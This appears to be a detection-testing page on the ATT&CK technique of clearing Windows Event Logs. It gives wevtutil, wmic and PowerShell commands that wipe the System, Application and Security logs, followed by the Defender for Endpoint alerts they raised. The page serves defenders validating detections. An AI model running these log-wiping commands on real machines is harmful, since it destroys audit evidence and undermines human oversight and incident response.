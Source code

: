 # Clear Windows Event Log

Clear Windows Event Logs is a technique where attackers delete records in Windows Event Logs to erase evidence of their activities. This action is part of the Defense Evasion tactic, as it helps attackers avoid detection by removing traces of their unauthorized actions from the logs, making it harder for security teams to investigate or respond to the intrusion.

## Simulation

Run the following commands in PowerShell as Administrator on a test device.

1. Direct wevtutil Commands
1. Using wmic
1. Using PowerShell Start-Process

---

### Direct wevtutil Commands

```dos
wevtutil cl system
wevtutil cl application
wevtutil cl security
```

---

### Using wmic

```dos
wmic process call create "cmd.exe /c wevtutil cl Application"
wmic process call create "cmd.exe /c wevtutil cl system"
wmic process call create "cmd.exe /c wevtutil cl security"
```

---

### Using PowerShell Start-Process

```powershell
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "Application" -NoNewWindow -Wait
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "System" -NoNewWindow -Wait
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "Security" -NoNewWindow -Wait
```

> *Script*: [download](Clear-EventLog.ps1)

## Detection

| Alert title | Event log was cleared |
| Alert description | An event log was cleared. This might indicate a malicious actor in the machine. |
| Alert details |
Category : Defense evasion
MITRE ATT&CK Techniques : Sub-technique T1070.001
Service source : Microsoft Defender for Endpoint 
Detection source : EDR 
Detection technology : Behavior,Network
Detection status : Detected |


| Alert title | Attempt to clear event log |
| Alert description | A process attempted to clear the event log. An attacker might be trying to hide evidence of malicious activity. |
| Alert details |
Category : Defense evasion
MITRE ATT&CK Techniques : Sub-technique T1070.001
Service source : Microsoft Defender for Endpoint 
Detection source : EDR 
Detection technology : Behavior,Network
Detection status : Detected |
